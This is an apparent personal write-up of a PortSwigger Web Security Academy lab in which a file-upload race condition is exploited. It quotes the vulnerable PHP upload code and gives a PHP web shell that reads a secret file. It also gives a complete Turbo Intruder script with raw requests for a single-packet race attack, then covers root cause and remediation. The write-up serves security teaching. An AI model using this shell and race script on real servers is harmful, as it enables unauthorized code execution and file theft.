



# PortSwigger Lab: Web shell upload via race condition

# TAGS: File Upload, Race Condition, Turbo Intruder, RCE, Burp Suite

Category: File Upload
Date: September 27, 2026
Day: Sunday
Link: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
Published: Ready
Status: Done

---

## Introduction

In this lab, the application uploads the file before validating it — so the file is briefly reachable by the web server before it is deleted. I show how I exploited this race condition with Turbo Intruder to read `/home/carlos/secret` in that small time window.

This write-up covers the reconnaissance, the exploitation steps, the root cause, the real-world impact, and how to prevent it.

---

## Reconnaissance:

#### Lab Description Lookup:

This lab is the last one of the File Upload section. The description says that the application performs robust validation on the files uploaded by the users, but it also says it is possible to bypass it by exploiting a race condition in how the application processes the image.

The description adds a tip: the code that leads to the vulnerability. Although it is possible to solve the lab without it — and in a real hunt the code will not be exposed — I will have a look at it for study purposes.

```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```

I can see in this piece of code that `move_uploaded_file` is called before the virus and extension checks. On top of that, the directory the file will be moved into is the one available to users. I have checked it by uploading a real picture.

```http
GET /files/avatars/avatarbob.png HTTP/2
Host: 0a17000f044be1f281a02f1c00160052.web-security-academy.net
Cookie: session=w9PVzlvtaENC7p0JVnvCYYQeTu4hvXPR
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Sec-Ch-Ua: "Chromium";v="151", "Not=A?Brand";v="99"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a17000f044be1f281a02f1c00160052.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
```

So, with that information in mind, I will try to use this gap between the move and the checks to run the file.

With Burp running, I navigated directly to `/my-account` and logged in using the credentials provided by the lab (`wiener:peter`).

Once logged in, I went to the image upload function and uploaded a real picture to get the accessible image path.

---

## Exploitation:

#### Step 1: Upload the web shell

I created a file called `shell.php` with the following content:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

- `file_get_contents` is a PHP function that reads the contents of a file into a string.
- `/home/carlos/secret` is the file indicated in the lab description.

The response was 403 because of the upload protection. I sent this POST to Turbo Intruder.

Turbo Intruder is a Burp Suite extension for the situations where milliseconds matter the most, like race conditions. It exposes an asynchronous, low-level API that controls exactly when each byte leaves the socket — which allows sending a large amount of requests at almost the same time.



If you have it installed, it's available in the Extensions tab. If not, I wrote a short article about it: [Turbo Intruder: precise requests for race conditions](../Tools/TurboIntruder.md).

After sending it, I changed the default script skeleton to race-multi-endpoint.py. Instead of a single request, I created 2 requests:



- `req1` is the POST request, the one with the shell.
- `req2` is the GET request for the real picture I uploaded — but instead of the picture name, I changed it to my shell name.

Since the target supports HTTP/2, I used `Engine.BURP2` with `concurrentConnections=1`, which triggers the single-packet attack: the gated requests are released together in a single TCP packet.

The `gate` parameter holds each request until `openGate` is invoked. All requests tagged with `race1` are held back until they are ready, then released together so they hit the server at almost the same time.

Pay attention to the request format: I lost some time because I erased the blank line at the end of the GET by accident. This happens because, without the final `\r\n\r\n`, the server keeps waiting for the missing parts of the headers and never replies, which leads the Intruder to show `null` (timeout).

```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, specify engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    req1 = r'''POST /my-account/avatar HTTP/2
Host: 0a0300da032e043b81ad890200dd00cd.web-security-academy.net
Cookie: session=GoqprjOS1EPjJCUon1CqVDRD3G3otZst
Content-Length: 467
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="151", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCgyAKThMqjzGUhkB
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36
Origin: https://0a0300da032e043b81ad890200dd00cd.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0300da032e043b81ad890200dd00cd.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryCgyAKThMqjzGUhkB
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundaryCgyAKThMqjzGUhkB
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryCgyAKThMqjzGUhkB
Content-Disposition: form-data; name="csrf"

QIDESceB13BjTwuVoeNq9G6gkZlGJeRW
------WebKitFormBoundaryCgyAKThMqjzGUhkB--
'''

    req2 = r'''GET /files/avatars/shell.php HTTP/2
Host: 0a0300da032e043b81ad890200dd00cd.web-security-academy.net
Cookie: session=GoqprjOS1EPjJCUon1CqVDRD3G3otZst
Sec-Ch-Ua: "Chromium";v="151", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0300da032e043b81ad890200dd00cd.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

'''
    engine.queue(req1, gate='race1')

    for i in range(5):
        
        engine.queue(req2, gate='race1')

    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)

```

#### Step 2: Win the race and read the secret

After finishing, I looked at the GET requests and 5 of them returned 200 with the secret:



```http
HTTP/2 200 OK
Date: Sun, 27 Sep 2026 20:05:31 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

YeWxysjSio6[REDACTED]
```

The server executed the PHP code and returned the secret. I submitted the content as the lab solution and the lab was solved.

---

## Root Cause

The application moves the uploaded file into a web-accessible directory before validating it, and only deletes the file if the validation fails. This is a classic TOCTOU (Time-Of-Check to Time-Of-Use) flaw: the file is put in use before it is verified. Between `move_uploaded_file` and `unlink` there is a window in which the malicious file is live and executable.

---

## Impact

An attacker can upload and execute a web shell, gaining remote code execution (RCE) with the privileges of the web application — even though the upload function appears to perform robust validation.

In real-world applications, this allows reading arbitrary files, modifying or destroying data, installing a persistent backdoor, or pivoting into internal systems.

---

## Remediation

To prevent this issue, applications should:

- Validate the file before it is moved into a web-accessible location;
- Perform validation in a temporary directory outside the web root, and only publish files that pass;
- Never trust the client-supplied filename — generate a random one;
- Store uploads in a directory where script execution is disabled;
- Avoid the write-then-check pattern, which is inherently racy.

---

## Key Takeaways

1. Uploading a file before validating it creates an exploitable race condition (TOCTOU).
2. A file that is only briefly reachable can still be requested and executed.
3. Race conditions are practical to exploit with tools like Turbo Intruder (gated/last-byte sync or single-packet attack).
4. Small request-format mistakes (a missing `\r\n\r\n`) can look like a `null`/timeout result.
5. Validation must happen before the file is deployed to a reachable location.

---

## References

- [PortSwigger — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [PortSwigger — Web shell upload via race condition (lab)](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)
- [PortSwigger Research — Smashing the state machine](https://portswigger.net/research/smashing-the-state-machine)
- [PortSwigger — Turbo Intruder](https://github.com/PortSwigger/turbo-intruder)

---

## Disclaimer

This write-up was created for educational purposes only. All testing was performed in an authorized PortSwigger Web Security Academy laboratory environment. Never test systems without explicit authorization.

This article was written with the assistance of artificial intelligence tools for text review, structure, and grammar correction. However, the entire testing process, technical analysis, vulnerability exploitation, and conclusions presented are the sole responsibility of the author and are based on tests performed in a controlled environment provided by the PortSwigger Web Security Academy.
